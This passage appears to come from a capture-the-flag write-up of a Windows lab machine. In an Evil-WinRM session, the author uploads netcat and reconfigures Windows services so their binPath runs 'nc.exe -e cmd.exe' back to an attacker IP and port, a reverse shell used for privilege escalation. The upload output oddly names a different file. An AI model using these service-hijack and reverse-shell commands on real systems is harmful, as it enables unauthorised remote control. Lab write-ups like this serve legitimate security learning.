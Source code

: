 ```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> services

Path                                                                              Privileges Service          
----                                                                              ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                         True       ADWS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                     True       NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                  True       PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"        False      Sense            
C:\Windows\servicing\TrustedInstaller.exe                                         False      TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"            True       VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                               True       VMTools          
"C:\WINDOWS\system32\vssvc.exe"                                                   True       VSS              
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"    True       WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"   True       WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                              False      WMPNetworkSvc
```

First we need to upload the Windows version of netcat:

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> upload /root/htb/return/nc.exe
Info: Uploading /root/htb/return/pencer.dll to C:\Users\svc-printer\desktop\nc.exe.dll
Data: 11604 bytes of 11604 bytes copied
Info: Upload successful!
```

After uploading it I tried to create my own service:

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe create pencer binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.15.39 4444"
[SC] OpenSCManager FAILED 5:
Access is denied.
```

Then I tried changing the config of an existing server so it uses my netcat instead for it's binary:

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe config WMPNetworkSvc binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.15.39 4444"
[SC] OpenService FAILED 5:
Access is denied.

*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe config PerfHost binpath="C:\Users\svc-printer\desktop\nc.exe -e cmd.exe 10.10.15.39 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe start PerfHost
[SC] StartService FAILED 5:
Access is denied.
```
